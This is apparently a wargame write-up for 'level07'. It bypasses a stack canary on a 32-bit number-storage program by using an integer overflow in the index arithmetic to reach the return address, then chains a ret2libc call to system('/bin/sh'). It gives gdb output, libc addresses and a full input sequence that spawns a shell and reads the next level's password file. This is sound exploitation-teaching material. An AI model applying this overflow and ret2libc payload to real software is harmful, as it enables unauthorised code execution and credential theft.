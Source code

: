 # Bye pass canary with ret2libc 

## Protection

RELRO | STACK CANARY | NX | PIE
--- | --- | --- | --- 
**Partial RELRO** | **Canary found** | **NX disable** | No PIE 

## Context

```bash
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command:
```

Programm, store unsigned int number in a buffer[100]. We can store value, read and quit the program.

The only restriction to store a values are: You cant store if the user_index % 3 == 0 or if user_number >> 24 == 183

```c
  if ((user_index % 3 == 0) || (user_number >> 24 == 183)) {
	return ;
  }
```

So we can easely overflow, and control the overflow ! (good bye canary :bye:)

To sump up: store buffer is size int [100]. but we can write at index more than 100.

As we can in gdb : return addresss to main is 0xf7c21519.

To find it, I did write 0x41 at index 100, so we can see that buffer[114] should overwrite return address.

									0x00000041	0x726f7473
0xffffd2cc:	0x00000065	0x00000000	0x00000000	0x00000000
0xffffd2dc:	0x74f5de00	0x00000001	0x00000000	0xf7e26000
0xffffd2ec:	0xf7e26000	0xffffd3b4	0xf7ffcb80	0xf7ffd020
0xffffd2fc:	0xf7c21519	0x00000001	0xffffd3b4	0xffffd3bc

buffer[114] can't be overwrite because 114 % 3 = 0.

### Lets write 114 bye int overflow:

As we can see here :

```c
    *(uint *)(user_index * 4 + param_1) = user_number;
```

It mult 4 with user_index and add start of store number buffer to get the index to write.

Value max we can write is uint / 4 = 1073741824

So if i had 114 to 1073741824 overflow lead us to 114.

To sum up: to get 114 by the overflow : 

```py
(UINT_MAX / 4) + 114
(( 4294967296 / 4 ) + 114 ) = 1073741938
# And: 
1073741938 % 3 = 1
```

Nx is disable, but it seems annoying to write data in the buffer cause of restrictions.

So lets do a ret2lib.

## Ret2libc

stack | Precision
--- | ---
system() | <- eip overwrite
exit() | call simulation (for ret of system) (if you write shit it is ok but program seg after the return of system)
"/bin/sh" |  /

```py
info functions system
0xf7e6aed0  system #4159090384 

info function exit
0xf7e5eb70  exit #4159040368

info proc mappings
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec # "/bin/sh" 4160264172
```

```bash
./level07
Input command: store               
 Number: 4159090384
 Index: 1073741938 #index 114
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116 
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ[...]
```